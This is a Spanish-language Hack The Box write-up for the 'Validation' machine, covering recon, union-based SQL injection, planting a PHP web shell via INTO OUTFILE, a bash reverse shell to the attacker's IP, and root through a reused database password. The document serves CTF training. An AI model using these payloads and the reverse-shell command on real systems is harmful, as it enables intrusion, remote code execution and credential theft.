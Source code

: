 ```yaml
---
layout: single
title: Hack The Box Validation
excerpt: "Resolución de la máquina Validation en la plataforma de Hack The Box"                         
date: 2022-04-12
classes: wide
header:
  teaser: /assets/images/htb-validation/validation.jpg
  teaser_home_page: true                     
categories:                                     
  - Easy
  - Linux
tags:
  - SQLi
---
```

![](/assets/images/htb-validation/banner-validation.jpg)

## Validation
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.11.116.

```bash
❯ ping -c 1 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=139 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.123/139.123/139.123/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.11.116 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:00 CDT
Initiating Ping Scan at 21:00                                   
Scanning 10.10.11.116 [4 ports]                                                                                                  
Completed Ping Scan at 21:00, 0.15s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:00
Scanning 10.10.11.116 [65535 ports]                                                                                              
Discovered open port 22/tcp on 10.10.11.116                                                                                      
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 21:01, 49.60s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE                                                                                                           
22/tcp   open  ssh     
80/tcp   open  http                                                                                                              
4566/tcp open  kwtc            
8080/tcp open  http-proxy                                                                                                        
                                
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 50.28 seconds
           Raw packets sent: 80154 (3.527MB) | Rcvd: 79194 (3.168MB)
```

Mediante la función [extractPorts](/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts                                         
───────┬──────────────────────────────────────
       │ File: extractPorts.tmp                                 
───────┼──────────────────────────────────────
   1   │                                                                                                                         
   2   │ [*] Extracting information...
   3   │                                                                                                                         
   4   │     [*] IP Address: 10.10.11.116
   5   │     [*] Open ports: 22,80,4566,8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p22,80,4566,8080 10.10.11.116 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.44 seconds
```

Nos encontramos con varios puertos que tienen el servicio HTTP corriendo, así que antes de visualizar el contenido vía web, vamos a ver a lo que nos enfrentamos con la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
❯ whatweb http://10.10.11.116:4566/
http://10.10.11.116:4566/ [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[403 Forbidden], nginx
❯ whatweb http://10.10.11.116:8080/
http://10.10.11.116:8080/ [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```

Poco más podemos ver que lo que ya nos ha reportado `nmap`; por lo que vamos a ver vía web:

![](/assets/images/htb-validation/validation-web.png)

Vemos que podemos ingresar un usuario, vamos a hacer algunas pruebas:

- `admin` - Vemos que se agrega al país que seleccionamos.
- `admin'` - Vemos que se agrega al país que seleccionamos con la *'*.
- `<h1>admin</h1>` - Es vulnerable a HTML Injection.
- `<script>admin</script>` - Es vulnerable a XSS.

No podemos hacer nada en este punto, así que vamos a ver como se tramita la petición y tenemos que se envían los campos **username** y **country**; por lo que vamos a interceptar la petición con **BurpSuite** y la mandamos al **Repeater**:

![](/assets/images/htb-validation/validation-burp.png)

Agregamos una comilla simple al país y enviamos la petición.

![](/assets/images/htb-validation/validation-burp1.png)

Al realizar las pruebas, para **Brazil** no se reflejaban las inyecciones que hacía; así que probé con otro país y ya comenzaron a reflejarse los cambios, para este caso **Mexico**. Ahora vamos a realizar las inyecciones siguientes:

- `username=k4miyo&country=Mexico' union select 1-- -` - Vemos que el campo del nombre de usuario cambia al valor 1.
- `username=k4miyo&country=Mexico' union select "test"-- -`: Vemos que el campo del nombre de usuario cambia al valor "test".
- `username=k4miyo&country=Mexico' union select database()-- -`: Vemos que el campo del nombre de usuario cambia al nombre de la base de datos, para este caso es **registration**.
- `username=k4miyo&country=Mexico' union select schema_name from information_schema.schemata-- -`: Tenemos los nombres de las bases de datos: **information_schema**, **performance_schema**, **mysql** y **registration**.
- `username=k4miyo&country=Mexico' union select table_name from information_schema.tables where table_schema="registration"-- -`: Vemos los nombres de las tablas presentes en la base de datos **registration**, en este caso **registration**.
- `username=k4miyo&country=Mexico' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Obtenemos los nombres de las columnas de la tabla **registration**, las cuales son: **username**, **userhash**, **country** y **regtime**.
- `username=k4miyo&country=Mexico' union select group_concat(username,0x3a,userhash) from registration.registration-- -` Obtenemos los campos **username** y **userhash**.

A partir de aquí no tenemos nada interesante, pero podríamos tratar de ver recursos en la máquina y tratar de subir algún archivo:

- `username=k4miyo&country=Mexico' union select load_file("/etc/passwd")-- -` Podemos ver el `/etc/passwd` de la máquina víctima.
- `username=k4miyo&country=Afganistan' union select "<?php echo shell_exec($_REQUEST['cmd']); ?>" into outfile "/var/www/html/k4mishell.php" -- -` Podemos subir archivos en la ruta `/var/www/html` y en este caso un archivo php con la cual podemos ejecutar comandos a nivel de sistema.

![](/assets/images/htb-validation/validation-web1.png)

Si tratamos de entablarnos una reverse shell, vemos que no nos funciona o que la conexión se muere rápidamente. Por lo tanto, trataremos de hacerlo con python; así que nos ponemos en escucha por el puerto 443:

```bash
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> data = {'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'"}
>>> import requests
>>> r = requests.post('http://10.10.11.116/k4mishell.php', data=data)
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.116] 43018
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
www-data@validation:/var/www/html$ 
```

Ya ingresamos a la máquina como el usuario **www-data** y para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Vemos que podemos visualizar la primer flag (user.txt). Ahora vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios:

```bash
www-data@validation:/home/htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/home/htb$ sudo -l
bash: sudo: command not found
www-data@validation:/home/htb$ cd /var/www/html/
www-data@validation:/var/www/html$ ls -l
total 40
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
-rw-r--r-- 1 mysql    mysql       65 Apr 11 18:37 k4mishell.php
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Tenemos una contraseña dentro del archivo `config.php`, suponiendo que se aplica reutilización de credenciales, podriamos ver si aplicar para el usuario **root**:

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
root@validation:/var/www/html#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Se comparte un autopwn de la máquina [Validation-Autopwn](https://github.com/k4miyo/Validation-Autopwn).
